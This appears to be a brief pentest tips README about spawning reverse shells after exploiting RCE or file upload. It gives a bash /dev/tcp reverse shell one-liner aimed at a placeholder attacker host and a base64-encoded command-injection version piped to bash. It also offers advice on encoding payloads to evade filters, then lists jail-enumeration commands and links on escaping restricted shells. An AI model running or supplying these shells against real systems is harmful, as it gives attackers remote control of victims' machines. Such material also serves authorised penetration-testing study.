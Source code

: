 # TIPS 

If you have obtained a vulnerability such as RCE, file upload or something else, you can use the script below to spawn a shell or backconnect revershell. If the shell does not run see below

1. Make sure the target has internet access (internet access opened)
2. Try changing the port to a larger one such as 8080, 8888, etc. 
3. Encode your script using base64 and then decode it 
4. Encode your script using url encode 

## Script 1 

```
sh -i >& /dev/tcp/<YOUR HOST OR IP>/<PORT> 0>&1
```

## Script 2

```
; echo c2ggLWkgPiYgL2Rldi90Y3AvPFlPVVIgSE9TVCBPUiBJUD4vPFBPUlQ+IDA+JjE= | base64 -d | bash;"
```

## Tips escape from jails or hardening server  

### Enum about the jail 

```
echo $SHELL
echo $PATH
env
export
pwd
```

Source 

- [Hacktrikcs Escaping from Jails](https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/escaping-from-limited-bash)
- [Hacktricks github escape from jails](https://github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/useful-linux-commands/bypass-bash-restrictions.md)
- [0xffsec restricted-shells](https://0xffsec.com/handbook/shells/restricted-shells/)